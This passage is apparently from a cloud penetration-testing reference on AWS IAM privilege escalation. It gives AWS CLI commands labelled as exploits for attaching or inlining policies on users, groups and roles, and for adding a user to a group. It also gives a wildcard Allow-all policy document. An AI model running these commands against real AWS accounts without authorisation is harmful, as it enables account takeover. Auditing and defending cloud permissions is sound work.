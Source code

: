 ```bash
aws iam attach-group-policy --group-name <group_name> --policy-arn "<policy_arn>"
```

**Impact:** Direct privilege escalation to anything the policy grants.

### **`iam:AttachRolePolicy`,** ( `sts:AssumeRole`|`iam:createrole`) | **`iam:PutUserPolicy` | `iam:PutGroupPolicy` | `iam:PutRolePolicy`**

Permits attaching or putting policies to roles, users, or groups, enabling direct privilege escalation by granting additional permissions.

**Exploit for Role:**

```bash
aws iam attach-role-policy --role-name <role_name> --policy-arn "<policy_arn>"
```

**Exploit for Inline Policies:**

```bash
aws iam put-user-policy --user-name <username> --policy-name "<policy_name>" \
    --policy-document "file:///path/to/policy.json"

aws iam put-group-policy --group-name <group_name> --policy-name "<policy_name>" \
    --policy-document file:///path/to/policy.json

aws iam put-role-policy --role-name <role_name> --policy-name "<policy_name>" \
    --policy-document file:///path/to/policy.json
```

You can use a policy like:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": ["*"],
      "Resource": ["*"]
    }
  ]
}
```

**Impact:** Direct privilege escalation by adding permissions through policies.

### **`iam:AddUserToGroup`**

Enables adding oneself to an IAM group, escalating privileges by inheriting the group's permissions.

**Exploit:**

```bash
aws iam add-user-to-group --group-name <group_name> --user-name <username>
```
